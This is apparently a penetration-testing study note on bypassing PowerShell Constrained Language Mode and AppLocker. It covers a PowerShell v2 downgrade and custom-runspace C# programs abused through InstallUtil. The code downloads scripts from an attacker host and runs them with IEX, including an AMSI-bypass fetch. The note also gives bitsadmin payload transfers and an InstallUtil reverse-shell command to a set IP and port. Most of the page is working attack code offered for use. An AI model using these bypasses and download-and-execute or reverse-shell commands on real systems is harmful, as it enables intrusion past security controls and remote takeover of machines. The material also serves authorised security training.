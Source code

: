 # You have no Power(Shell) here muahaha

![](../Assets/abraxas-lotr.gif)

Alright you are in. You run the below command to check if you can Powershell

```powershell
$ExecutionContext.SessionState.LanguageMode
```

![](../Assets/clm.png)

## Quick Explanation on CLM

- CLM is activated when AppLocker is active against script execution
- Under CLM, any scripts in whitelisted locations or complying with whitelisting rules execute with no restrictions
- However, if a script does not comply with the rules or commands are entered directly on the command line, there are restrictions on calls on .NET, C# execution and reflection

## Bypassing CLM - Downgrading to PowerShell V2

PowerShell V2 lacks AMSI and all the fancy protective measures that came after it.
If the victim is Windows 10 and above, this will likely not work since the .NET Framework v2 is not included by default and thus you can't run PowerShell v2.

But just in case there is PowerShell V2

```cmd
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
```

## Bypassing CLM - Custom Runspaces

- Executing powershell without using Powershell.exe which can bypass AppLocker restrictions on Powershell.exe
- As this will be compiled as an executable, we can abuse InstallUtil to execute our bypass
- Compile this as a C# Console App (.NET Framework) on Visual Studio

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WriteLine("This is the main method which is a decoy");
		}
	}
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            // change the command to whatever you want. Do note that the Out-File seems to be required in order to read the output because there doesnt seem to be any output to console
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/powerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
            // String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/lapstoolkit.ps1') | IEX; Get-LAPSComputers | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

Once compiled, you can use bitsadmin to download the executable onto the victim
For some reason, python http.server dont seem to gel well with bitsadmin. So host the file on an apache2 server

myJob is just a name. Can name it anything you want

```cmd
bitsadmin /Transfer myJob http://<evil ip>/file.txt <output path>
```

Search for InstallUtil (may not be on PATH) on the Windows system
```cmd

dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\evil.exe
```

## Bypassing CLM - Open Source Tools

There are at least two tools I found recommended by OffSec Student Mentors in the Discord channel. Seems to work fine and obviously a lot easier!

### Tool 1 : PSByPassCLM

https://github.com/padovah4ck/PSByPassCLM

**Usage**

Fairly simple. Compile the C# code. Transfer to victim and use InstallUtil to execute it. You can also rename your executable to any file format as InstallUtil parses everything

There are two broad modes:

1) Create a "PowerShell Session"

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

2) Reverse Shell

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

### Tool 2: Bypass-CLM

https://github.com/calebstewart/bypass-clm/tree/master





```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;
 
namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }
 
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.54/amsi.txt') | IEX;";
            String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.54/script.txt') | IEX | Out-File -FilePath C:\\windows\\tasks\\output.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            Console.WriteLine("Test1");
 
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
            try
            {
                ps.Invoke();
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            ps.AddScript(cmd2);
            try
            {
                ps.Invoke();
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            rs.Close();
        }
    }
}
```